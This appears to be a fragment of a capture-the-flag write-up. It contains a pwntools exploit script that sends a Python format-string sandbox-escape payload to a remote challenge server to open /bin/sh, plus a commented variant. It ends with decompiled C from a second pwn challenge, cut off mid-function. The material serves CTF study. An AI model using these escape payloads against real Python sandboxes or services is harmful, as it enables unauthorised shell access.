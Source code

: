 ### exploit.py

```python
from pwn import *

p = remote('3.35.196.167', 42424)
#p = process(['python3', 'prob.py'])

#dt = '''string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")'''
dt = '''
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); 
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
'''.replace('\n', '\r')
p.sendlineafter(b': ', dt)
p.send(b'\n')
p.interactive()
```

---
## pwn/What's Happening?

```C
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  int v4; // r8d
  int v5; // r9d
  int v6[2]; // [rsp+18h] [rbp-68h] BYREF
  int v7[2]; // [rsp+20h] [rbp-60h]
  char *v8; // [rsp+28h] [rbp-58h]
  char s[8]; // [rsp+30h] [rbp-50h] BYREF
  __int64 v10; // [rsp+50h] [rbp-30h] BYREF
  int v11[2]; // [rsp+60h] [rbp-20h] BYREF
  unsigned __int64 v12; // [rsp+68h] [rbp-18h]

  v12 = __readfsqword(0x28u);
  init(argc, argv, envp);
  *(_QWORD *)v7 = &objects;
  init_solar_system(&objects);
  puts("Planet Distance Calculator v1.0");
  while ( 1 )
  {
    menu();
    v3 = prompt();
    if ( v3 == 3 )
      break;
    if ( v3 <= 3 )
    {
      if ( v3 == 1 )
      {
        printf("Enter planet index to update (0-12): ");
        __isoc99_scanf("%ld", v6);
        printf("Enter planet name: ");
        getchar();
        if ( fgets(s, 32, stdin) )
        {
          v8 = strchr(s, 10);
          if ( v8 )
            *v8 = 0;
        }
        printf("Enter AU value: ");
```